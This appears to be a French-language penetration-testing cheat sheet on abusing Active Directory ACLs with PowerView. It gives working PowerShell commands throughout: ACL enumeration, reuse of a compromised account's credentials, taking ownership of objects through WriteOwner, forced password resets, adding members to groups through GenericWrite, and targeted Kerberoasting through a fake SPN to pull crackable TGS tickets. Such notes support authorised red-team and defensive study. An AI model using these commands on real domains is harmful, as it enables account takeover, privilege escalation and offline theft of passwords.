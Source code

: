 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Enumération des ACLs
```powershell
. .\PowerView.ps1
# ACLs intéressantes (très long)
Find-InterestingDomainAcl

# ACLs liées à un compte spécifique ($targetUserName)
$sid = Convert-NameToSid $targetUserName 
# peu prendre beaucoup de temps (plusieures minutes vois dizaines de minutes)
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

## Exploitation de privilèges en notre possession

On s'appuiera souvent sur des informations d'identification différentes d'un compte préalablement compris. 
Dans ce cas, on utilisera le parametre `-Credential $creds` avec un objet PSCredential créé de la façon suivante :

```powershell
$pass = "somePass"
$user = "DOMAIN\someuser"
$creds = New-Object System.Management.Automation.PSCredential($user, (ConvertTo-SecureString $pass -AsPlainText -Force))
```

### WriteOwner (appropriation d'un objet)

Permet de s'approprier un objet pour ensuite accéder à ses propriétés et ajouter d'autres ACLs (par exemple l'ajout du droit ForceChangePassword)

```powershell
# Appropriation d'un utilisateur (lorsqu'on a un droit WriteOwner référencé dans Bloodhound)
Set-DomainObjectOwner -Identity $targetUser -OwnerIdentity $compromisedUser
# Ajout d'une ACL sur le compte approprié pour réinitialiser le password :
Add-DomainObjectAcl -TargetIdentity $targetUser -PrincipalIdentity source_user -Rights ResetPassword
```

### ForceChangePassword (modification du mot de passe)
```powershell
# Réinitialisation du password
$pass = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
Set-DomainUserPassword -Identity Target_AD_User -Password $pass
```

### GenericWrite 

Permet :
- l'ajout d'un utitilisateur comme membre d'un groupe sur le quel on dispose de ce droit

```powershell
Add-DomainGroupMember -Identity "Target Group With GenericWrite right" -Members 'compromised'
# Verification
Get-DomainGroupMember -Identity "Target Group With GenericWrite right" | ?{$_.MemberName -eq 'compromised'}
```

### GenericAll

Permet de récupérer le hash du mot de passe d'un utilisateur sur lequel on dispose de ce privilège.
L'attaque se nomme "Targetted Kerberoasting".
Elle conciste en la création d'un SPN sur le compte cible afin de récupérer un TGS à cracker hors ligne.
Si le mot de passe est facile à deviner, on pourra le casser comme dans une attaque de Kerberoasting classique ([[Cassage de mots de passes Kerberos]])

```powershell
# Création d'un faux SPN pour pouvoir récupérer un TGS
Set-DomainObject -Identity $targetedUser -SET @{serviceprincipalname='nonexistent1/BLAHBLAH'}
# Récupération du TGS
Get-DomainUser $targetedUser | Get-DomainSPNTicket | fl
# Cleanup
Set-DomainObject -Identity $targetedUser -Clear serviceprincipalname
```